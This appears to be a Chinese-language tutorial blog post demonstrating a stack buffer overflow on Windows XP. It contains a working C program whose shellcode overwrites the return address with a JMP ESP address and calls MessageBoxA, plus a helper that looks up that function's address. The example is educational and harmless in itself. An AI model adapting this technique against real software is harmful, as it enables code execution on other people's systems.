 ```yaml
---
title: 缓冲区溢出
date: 2016-07-16 13:14:47
tags:
- 计算机安全
---
```

>环境： Windows XP SP3, VC6.0

先上代码：

```c
#include<stdio.h>
#include<string.h>
#include<windows.h>
char name[] = 
"\x41\x41\x41\x41"
"\x41\x41\x41\x41"
"\x41\x41\x41\x41" // 覆盖EBP
"\x12\x45\xfa\x7f" // 将EIP覆盖为JMP ESP的地址
"\x33\xDB\x53\x68\x66\x69\x73\x68\x68\x6B\x6F\x6F\x6B\x8B\xC4\x53\x50" // 
"\x50\x53\xB8"
"\xEA\x07\xD5\x77" // 本机上messagebox的地址，每个机器是不一样的
"\xFF\xD0\x53\xB8\xFA\xCA\x81\x7C\xFF\xD0";
int main() {
    char output[8];
    LoadLibrary("user32.dll");
    strcpy(output,name);
    return 0;
}
```

strcpy()函数不做越界检查，这段代码将EBP和EIP都覆盖掉。EIP将会别覆盖为0x7ffa4512，这个地址是一个通用的JMP ESP指令地址，适合Windows系统。JMP ESP将从栈顶开始执行，即原来的EIP下面开始。本示例中的shellcode会调用messagebox函数，每台机器上的message函数地址不一样，如果你想执行这段代码的话，需要将这个地址替换为自己的。messagebox的地址可以通过以下代码获得：

```c
#include<stdio.h>
#include<windows.h>

typedef void (*MYPROC)(LPTSTR);

int main() {
        HINSTANCE LibHandle;
        MYPROC ProcAdd;
        LibHandle = LoadLibrary("user32");
        
        ProcAdd = (MYPROC)GetProcAddress(LibHandle,"MessageBoxA");
        printf("system = //x%x\n",ProcAdd);
        return 0;
}

```

效果如下
![res](result.png)